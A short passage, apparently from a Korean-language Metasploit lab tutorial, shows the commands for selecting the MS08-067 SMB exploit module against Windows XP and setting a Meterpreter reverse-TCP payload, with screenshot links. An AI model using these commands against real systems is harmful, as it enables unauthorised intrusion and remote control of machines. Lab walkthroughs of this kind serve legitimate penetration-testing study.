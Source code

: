 search 명령어를 통해 알아낸 모듈을 use 명령어로 사용한다.

```
msf5 > use exploit/windows/smb/ms08_067_netapi
```

![4_04](./image4/winXPhash.png)

```
> set payload windows/meterpreter/reverse_tcp_allports
> show options
```

meterpreter 실행 후, 옵션창을 켜서 현재 세팅을 확인한다. 

![4_05](./image4/winXPhash4.png)
